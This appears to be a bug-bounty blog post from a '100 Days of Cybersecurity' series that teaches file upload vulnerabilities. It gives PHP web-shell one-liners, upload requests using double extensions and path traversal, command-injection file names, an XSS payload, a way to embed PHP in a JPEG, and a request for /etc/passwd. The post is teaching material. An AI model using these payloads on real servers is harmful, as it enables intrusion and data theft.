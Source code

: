 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968"> File Upload Vulnerabilities 🗃️ 
date: 2024-01-16 07:00:02 +730
categories: [Resources, bugbounty]
tags: [fileupload-vulnerability,bug-bounty,100-days-of-cybersecurity] # TAG names should always be lowercase
mermaid: true

---
```


<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 16</h1>


![File-Upload-Vulnerability-2760290964](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }





# 1. Unrestricted File Type Upload:


Allowing users to upload files without proper validation can lead to the execution of malicious scripts. An attacker may upload a file with a double extension, such as "malicious.php.jpg," tricking the system into treating it as an image file while executing PHP code.

**Example Payloads:**
```php
<?php echo passthru($_GET['cmd']); ?>
```

```php
<?php echo exec($_POST['cmd']); ?>
```
```php
<?php system($_GET['cmd']); ?>
```
```php
<?php passthru($_REQUEST['cmd']); ?>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.php.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 2. File Size Limit Bypass:


Attackers can attempt to bypass file size restrictions by compressing files or splitting them into smaller parts. This may allow them to upload content exceeding the specified limits.

**Example Payload:**
```bash
# Splitting a file into parts
split -b 1M largefile.txt part
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part1"
Content-Type: text/plain

...binary data of part 1...

POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part2"
Content-Type: text/plain

...binary data of part 2...
```

# 3. Malicious File Content:


Attackers may manipulate file content to include malicious scripts or payloads, exploiting vulnerabilities in server-side processing.

**Example Payload:**
```html
<script>alert('XSS Attack');</script>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.html"
Content-Type: text/html

<script>alert('XSS Attack');</script>
```

# 4. Path Traversal Attacks:


Path traversal vulnerabilities may allow attackers to upload files outside the intended directory, potentially gaining unauthorized access to sensitive information.

> The restrication may not be in the previous directory ! 😜 


**Example Payload:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="../sensitivefile.txt"
Content-Type: text/plain

...binary data of the file...
```

# Remote Command Execution (RCE) via File Name Parameter

If the application includes custom image processing or file manipulation, it may be susceptible to remote command execution through code injection in the file name.

## Example Valid File Names and Payloads:

| File Name            | Payload        | Outcome if Vulnerable  |
|----------------------|----------------|------------------------|
| a$(whoami)z.jpg      | $(whoami)      | a[CURRENT USER]z.jpg   |
| a\`whoami\`z.jpg     | \`whoami\`     | a[CURRENT USER]z.jpg   |
| a;sleep 30;z.jpg     | ;sleep 30;     | The application will take 30+ seconds to respond |



# 5. Denial of Service (DoS) through File Uploads:


Attackers may overwhelm the server by uploading a large number of files simultaneously.

**Example Payload:**
```bash
# Generating a large file
dd if=/dev/zero of=largefile.txt bs=1M count=100
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="largefile.txt"
Content-Type: application/octet-stream

...binary data of the large file...
```

# 6. Image-Based Attacks (Polyglot):


Exploiting vulnerabilities in image processing libraries to execute arbitrary code.

<iframe width="560" height="315" src="https://www.youtube.com/embed/uGk5_yDbSeQ?si=BKDXh1Xh7H_pMhkb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

> simple way to achive this is using exiftool and embed the php webshell via comeents
{: .prompt-info }


**Example Payload (Image with Embedded Malicious Code):**
```bash
# Embedding malicious code in an image
echo -n '<?php system("ls -la"); ?>' >> malicious.jpg
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 7. Insecure Direct Object References (IDOR):

**Vulnerability Description:**
File upload functionalities may introduce IDOR vulnerabilities, allowing attackers to manipulate file references.

**Example Payload:**
```http
GET /download?file=../../../etc/passwd HTTP/1.1
```

In this case, an attacker manipulates the file parameter to access sensitive files.

These examples illustrate the technical aspects of common file upload vulnerabilities and highlight the importance of implementing robust security measures to protect against them. Always validate, sanitize, and restrict file uploads to ensure the integrity and security of your web application.



![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
